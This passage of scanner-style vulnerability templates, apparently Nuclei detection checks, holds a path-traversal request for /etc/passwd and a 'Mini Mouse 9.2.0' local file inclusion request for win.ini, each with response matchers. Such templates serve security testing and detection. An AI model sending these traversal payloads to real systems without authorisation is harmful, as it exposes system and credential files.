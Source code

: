 - Method - GET

### URL

- {{BaseURL}}/static/css//../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Mini Mouse 9.2.0 - Local File Inclusion

## Description

- Mini Mouse 9.2.0 is vulnerable to local file inclusion because it allows remote unauthenticated attackers to include and disclose the content of locally stored files via the 'file' parameter.
- severity - high
- tags - lfi,edb,minimouse

## Requests

- Method - GET

### URL

- {{BaseURL}}/file=C:%5CWindows%5Cwin.ini

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and
- part - body

---
